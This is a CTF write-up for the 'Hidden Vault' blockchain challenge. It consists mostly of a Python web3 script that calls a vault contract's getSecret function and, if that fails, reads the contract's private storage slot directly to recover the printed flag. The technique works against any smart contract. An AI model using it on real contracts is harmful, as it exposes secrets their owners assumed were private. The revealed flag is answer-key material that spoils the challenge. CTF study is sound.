


## Summary

Challenge **Hidden Vault** from the 2025_SADC-NextGenCyber-CTF CTF, serie category.

## Statement and artefacts

See the original challenge files and images in this directory.

## Recognition signals

- (see resolution method below)

## Resolution method

# Hidden Vault



This is the python script to solve the challenge

```python
# get_flag_web3.py
# Usage: python3 get_flag_web3.py

from web3 import Web3
import sys

RPC = "http://109.205.181.210:17846"
w3 = Web3(Web3.HTTPProvider(RPC))

VAULT = "0xa16E02E87b7454126E5E10d957A927A7F5B5d2be"
SETUP = "0x5FbDB2315678afecb367f032d93F642f64180aa3"

ABI = [
    {
        "constant": True,
        "inputs": [{"name": "user", "type": "address"}],
        "name": "getSecret",
        "outputs": [{"name": "", "type": "bytes32"}],
        "payable": False,
        "stateMutability": "view",
        "type": "function"
    }
]

def bytes32_to_str(b):
    if isinstance(b, bytes):
        s = b.rstrip(b'\x00').decode('utf-8', errors='ignore')
        return s
    if isinstance(b, str) and b.startswith("0x"):
        raw = bytes.fromhex(b[2:])
        return raw.rstrip(b'\x00').decode('utf-8', errors='ignore')
    return str(b)

def try_call_get_secret():
    try:
        contract = w3.eth.contract(address=VAULT, abi=ABI)
        secret = contract.functions.getSecret(SETUP).call()
        return ("call", secret)
    except Exception as e:
        return ("call_failed", e)

def read_storage_slot():
    # slot = keccak256(abi.encodePacked(key (address), uint256(0)))
    slot_hash = w3.solidityKeccak(['address', 'uint256'], [SETUP, 0])
    # get_storage_at requires slot as hex string
    slot_hex = slot_hash.hex()
    value = w3.eth.get_storage_at(VAULT, slot_hex)
    return (slot_hex, value)

def main():
    print("RPC:", RPC)
    print("Vault:", VAULT)
    print("Setup (key):", SETUP)
    print("Trying getSecret via contract call...")
    method, res = try_call_get_secret()
    if method == "call":
        print("getSecret returned (raw):", res)
        print("Flag:", bytes32_to_str(res))
        return
    else:
        print("Call failed or not available. Falling back to storage read.")
        slot_hex, value = read_storage_slot()
        print("Computed slot:", slot_hex)
        print("Raw storage value:", value.hex())
        print("Flag:", bytes32_to_str(value))

if __name__ == "__main__":
    try:
        main()
    except Exception as e:
        print("Erreur:", e)
        sys.exit(1)

```



**FLAG:** SADC{h3ll0_ch41n_sc0ut3r}

This one was solved by one of my team members and I do not understand the mechanic under this solve.

## Flag

SADC{h3ll0_ch41n_sc0ut3r}

## Lessons and reusable patterns

- (see resolution method above)
